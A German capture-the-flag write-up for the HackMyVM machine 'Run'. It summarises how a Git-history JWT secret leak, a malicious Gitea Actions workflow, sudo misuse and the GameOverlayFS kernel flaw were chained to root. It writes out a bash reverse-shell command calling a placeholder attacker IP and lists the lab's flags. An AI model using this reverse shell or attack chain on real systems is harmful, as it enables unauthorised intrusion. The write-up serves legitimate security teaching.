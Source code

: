 # Run - HackMyVM (Medium)

![Run.png](Run.png)

## Übersicht

*   **VM:** Run
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Run)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 11. März 2024
*   **Original-Writeup:** https://alientec1908.github.io/Run_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Run" zu erlangen. Der Weg dorthin begann mit der Entdeckung einer Gitea-Instanz (Version 1.21.7) auf Port 3000. Durch das Klonen eines öffentlichen Gitea-Repositories (`dev/flask-jwt-auth`) und Analyse der Git-Historie wurde ein zuvor verwendeter JWT Secret Key (`developer88`) aufgedeckt. Dieses Secret ermöglichte die Erstellung eines gültigen JWTs für den Benutzer `dev` oder die direkte Anmeldung mit `dev:developer88`. Mit diesem Zugriff wurden Gitea Actions genutzt, um eine Reverse Shell als Benutzer `act` (Gitea-Runner-Benutzer, lief vermutlich in einem Docker-Container) zu erhalten. Innerhalb des Containers hatte `act` volle `sudo`-Rechte, was zu Root-Rechten im Container führte. Von dort aus wurde eine SSH-Verbindung zum Host-System als Benutzer `dev` (mit dem Passwort `developer88`) hergestellt. Auf dem Host wurde festgestellt, dass der Kernel (Ubuntu 6.2.0-20-generic) anfällig für die "GameOverlayFS"-Schwachstelle (CVE-2023-2640 / CVE-2023-32629) war. Ein öffentlicher Exploit wurde heruntergeladen und ausgeführt, um Root-Rechte auf dem Host-System zu erlangen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan` (impliziert, netdiscover wurde verwendet)
*   `netdiscover`
*   `nmap`
*   `nikto`
*   `gobuster`
*   `curl`
*   `vi` / `nano`
*   Base64 Decoder (impliziert)
*   `git`
*   `pip`
*   Python3
*   `jwt.io` (impliziert für JWT-Analyse)
*   `john` (für JWT Secret Crack)
*   `nc` (netcat)
*   `script` (für Shell-Stabilisierung)
*   `stty`
*   `export`
*   `ssh`
*   `sudo`
*   `runc` (impliziert für Container-Exploit, aber nicht direkt genutzt)
*   `unshare` (im Kernel-Exploit-Skript)
*   `setcap` (im Kernel-Exploit-Skript)
*   `mount` (im Kernel-Exploit-Skript)
*   Standard Linux-Befehle (`ls`, `cat`, `id`, `pwd`, `cd`, `chmod`, `uname`, `rm`, `cp`, `mkdir`, `whoami`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Run" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration (Gitea):**
    *   IP-Adresse des Ziels (192.168.2.111) mit `netdiscover` identifiziert. Hostname `run.hmv` in `/etc/hosts` eingetragen.
    *   `nmap`-Scan offenbarte nur Port 3000 (HTTP), der von Gitea httpd 1.21.7 bedient wurde. Nikto und Nmap lieferten Details zur Gitea-Instanz.
    *   `gobuster` fand Gitea-Pfade wie `/admin`, `/issues` (Login erforderlich) und die Benutzerprofile `/dev` und `/administrator`.
    *   Im `/dev`-Profil wurde das öffentliche Repository `flask-jwt-auth` gefunden.

2.  **Vulnerability Analysis (JWT Secret Leak) & Initial Access (Gitea Actions RCE als `act`):**
    *   Das Repository `flask-jwt-auth` wurde mit `git clone http://run.hmv:3000/dev/flask-jwt-auth.git` heruntergeladen.
    *   Die Analyse der Git-Historie (`git show`) enthüllte einen früheren Commit, in dem ein JWT (`eyJ...`) und der zugehörige `SECRET_KEY` (`developer88`) vorhanden waren, bevor der Token durch "xxxxxxxx" ersetzt wurde.
    *   Der `SECRET_KEY` (`developer88`) wurde mit `john` aus dem JWT-Hash (HMAC-SHA256) geknackt.
    *   Mit den Credentials `dev:developer88` (oder einem selbst erstellten JWT mit dem Secret) wurde Zugriff auf Gitea erlangt.
    *   Ein neues Repository (`revshell`) wurde erstellt und Gitea Actions dafür aktiviert.
    *   Ein Workflow (`.gitea/workflows/shell.yaml`) wurde erstellt, der eine Bash-Reverse-Shell (`/bin/bash -i >& /dev/tcp/ANGRIFFS_IP/4242 0>&1`) bei einem `push`-Ereignis ausführt.
    *   Der Workflow wurde committet und zum Gitea-Repository gepusht (`git push origin main`).
    *   Eine Reverse Shell als Benutzer `act` (Gitea-Runner, vermutlich in einem Docker-Container) wurde auf einem Netcat-Listener (Port 4242) empfangen und stabilisiert.

3.  **Privilege Escalation (Container: `act` zu `root` via `sudo`):**
    *   Als `act` zeigte `id` die Mitgliedschaft in der `sudo`-Gruppe.
    *   `sudo -l` bestätigte, dass `act` volle `sudo`-Rechte (`(ALL : ALL) ALL`, `NOPASSWD: ALL`) im Container hatte.
    *   Mit `sudo su` wurden Root-Rechte innerhalb des Containers erlangt.

4.  **Privilege Escalation (Host: Container-Root zu Host-`dev` zu Host-`root` via Kernel Exploit):**
    *   Vom Root-Account im Container wurde eine SSH-Verbindung zum Docker-Host-Gateway (vermutlich `172.18.0.1`) als Benutzer `dev` mit dem Passwort `developer88` hergestellt.
    *   Auf dem Host (`dev@run`) wurde die Kernel-Version `6.2.0-20-generic` (Ubuntu) identifiziert.
    *   Diese Version ist anfällig für die "GameOverlayFS"-Schwachstelle (CVE-2023-2640 / CVE-2023-32629).
    *   Ein öffentlicher Exploit (`exploit.sh` von GitHub/g1vi) wurde nach `/tmp/ex.sh` auf den Host heruntergeladen und ausführbar gemacht. GCC war nicht installiert, daher wurde ein Skript-basierter Exploit gewählt.
    *   Durch Ausführen von `./ex.sh` wurde die Kernel-Schwachstelle ausgenutzt und eine Root-Shell auf dem Host-System erlangt.
    *   Die User-Flag (`56f98bdfaf5186243bc4cb99f0674f58`) wurde in `/home/dev/user.txt` gefunden.
    *   Die Root-Flag (`008b138f906537f51a5a5c2c69c4b8a2`) wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Exponierte Gitea-Instanz:** Ein Git-Server war öffentlich zugänglich.
*   **JWT Secret Leak in Git-Historie:** Ein JWT Secret Key (`developer88`) wurde in einem früheren Commit im Quellcode belassen, was das Erstellen gültiger JWTs oder das Erraten des zugehörigen Passworts ermöglichte.
*   **Gitea Actions RCE:** Missbrauch von Gitea Actions durch Erstellen eines bösartigen Workflows, der eine Reverse Shell ausführt.
*   **Übermäßige `sudo`-Rechte im Container:** Der Gitea-Runner-Benutzer (`act`) hatte volle `sudo`-Rechte innerhalb seines Containers.
*   **Kernel Exploit (GameOverlayFS / CVE-2023-2640 / CVE-2023-32629):** Eine bekannte Schwachstelle im Ubuntu-Kernel ermöglichte lokale Privilegieneskalation zu Root auf dem Host-System.
*   **Passwort-Wiederverwendung / Schwache Credentials:** Das Passwort `developer88` (identisch zum JWT Secret) ermöglichte den SSH-Zugriff auf den Host als `dev`.

## Flags

*   **User Flag (`/home/dev/user.txt`):** `56f98bdfaf5186243bc4cb99f0674f58`
*   **Root Flag (`/root/root.txt`):** `008b138f906537f51a5a5c2c69c4b8a2`

## Tags

`HackMyVM`, `Run`, `Medium`, `Gitea`, `JWT Exploit`, `Git History Leak`, `Gitea Actions RCE`, `Docker Escape` (impliziert durch Container-Root zu Host), `sudo Exploit`, `Kernel Exploit`, `CVE-2023-2640`, `CVE-2023-32629`, `GameOverlayFS`, `Linux`, `Web`, `Privilege Escalation`, `OpenSSH`
